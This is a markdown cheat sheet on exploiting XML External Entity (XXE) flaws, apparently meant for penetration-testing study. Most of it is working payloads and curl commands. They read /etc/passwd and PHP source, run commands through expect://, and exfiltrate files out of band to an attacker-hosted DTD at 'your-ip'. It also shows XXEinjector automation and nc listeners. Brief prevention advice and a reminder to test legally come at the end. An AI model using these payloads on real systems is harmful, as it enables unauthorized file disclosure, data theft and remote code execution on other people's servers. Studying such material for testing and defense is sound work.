 ## Introduction to XXE

**Definition:** XXE vulnerabilities occur when a web application parses XML input from a user without proper sanitization, allowing attackers to inject malicious XML entities.

**Impact:** Can lead to:

- **Sensitive file disclosure** (e.g., reading `/etc/passwd`)
    
- **Server-side request forgery (SSRF)**
    
- **Denial-of-service (DoS)**
    
- **Remote code execution (RCE)**
    

**OWASP Top 10:** XXE is considered a significant web security risk.

---

## XML Basics

### XML Structure:

- XML documents consist of elements, attributes, entities, and declarations.
    
- **DTD (Document Type Definition):** Defines the structure of an XML document and can be internal or external.
    
- **XML Entities:** Variables within XML documents, including internal and external entities.
    
- **External entities** can reference local or remote files.
    

---

## Exploitation Techniques

### 1. Local File Disclosure

**Identification:** Look for web pages that accept XML input.

**Exploitation:** Define external entities to reference local files.

```xml
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>&xxe;</root>
```

**Command:**

```bash
curl -X POST -H "Content-Type: application/xml" -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><root>&xxe;</root>' http://target.com/vulnerable.php
```

### 2. Source Code Disclosure (PHP Filter)

```xml
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<root>&xxe;</root>
```

Command:

```bash
curl -X POST -H "Content-Type: application/xml" -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]><root>&xxe;</root>' http://target.com/vulnerable.php
```

### 3. Remote Code Execution (RCE) with Expect

```xml
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "expect://id"> ]>
<root>&xxe;</root>
```

Command:

```bash
curl -X POST -H "Content-Type: application/xml" -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY xxe SYSTEM "expect://id"> ]><root>&xxe;</root>' http://target.com/vulnerable.php
```

### 4. CDATA Exfiltration via External DTD

Create `xxe.dtd`:

```xml
<!ENTITY joined "%begin;%file;%end;">
```

Host the DTD file:

```bash
python3 -m http.server 8000
```

Send the XML payload:

```xml
<!DOCTYPE root [ <!ENTITY % begin "<![CDATA["> <!ENTITY % file SYSTEM "file:///var/www/html/file.txt"> <!ENTITY % end "]]>"> <!ENTITY % xxe SYSTEM "http://your-ip:8000/xxe.dtd"> %xxe; ]>
<root>&joined;</root>
```

Command:

```bash
curl -X POST -H "Content-Type: application/xml" -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % begin "<![CDATA["> <!ENTITY % file SYSTEM "file:///var/www/html/file.txt"> <!ENTITY % end "]]>"> <!ENTITY % xxe SYSTEM "http://your-ip:8000/xxe.dtd"> %xxe; ]><root>&joined;</root>' http://target.com/vulnerable.php
```

### 5. Error-Based XXE with External DTD

Create `xxe.dtd`:

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

Host the DTD file:

```bash
python3 -m http.server 8000
```

Send the XML payload:

```xml
<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://your-ip:8000/xxe.dtd"> %remote; %error; ]>
```

Command:

```bash
curl -X POST -H "Content-Type: application/xml" -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://your-ip:8000/xxe.dtd"> %remote; %error; ]>' http://target.com/vulnerable.php
```

### 6. Out-of-Band (OOB) Exfiltration with External DTD

Create `xxe.dtd`:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://your-ip:8000/?content=%file;'>">
```

Host a PHP server:

```bash
php -S 0.0.0.0:8000
```

Send the XML payload:

```xml
<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://your-ip:8000/xxe.dtd"> %remote; %oob; ]><root>&content;</root>
```

### 7. Automated XXE Exploitation with XXEinjector

Clone the tool:

```bash
git clone https://github.com/enjoiz/XXEinjector.git
```

Create `request.txt`:

```
POST /vulnerable.php HTTP/1.1
...headers...
<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Run the exploit:

```bash
ruby XXEinjector.rb --host=your-ip --httpport=8000 --file=request.txt --path=/etc/passwd --oob=http --phpfilter
```

Set up listeners:

```bash
nc -lvp 8000
```

Capture DNS requests:

```bash
tcpdump -i tun0 port 53
```

---

## XXE Prevention

1. **Disable DTDs:** Configure XML parsers to disable DTD processing.
    
2. **Input Validation:** Sanitize and validate XML input.
    
3. **Use Safe Parsing Libraries:** Use XML parsers that are not vulnerable to XXE.
    
4. **Update Components:** Keep XML libraries and related components up to date.
    
5. **Least Privilege:** Run applications with minimal privileges.
    
6. **Web Application Firewall (WAF):** Implement a WAF to filter malicious XML input.
    

---

## Key Takeaways

- **Understand XML Entities:** Internal vs. external entities.
    
- **Advanced XXE Attacks:** OOB exfiltration, error-based XXE, and parameter entities.
    
- **Use Automated Tools:** XXEinjector helps automate XXE attacks.
    
- **Always test legally:** Conduct security tests only on systems where you have explicit permission.
    
- **Regular Updates and Fixes:** Patch and monitor applications to prevent XXE vulnerabilities.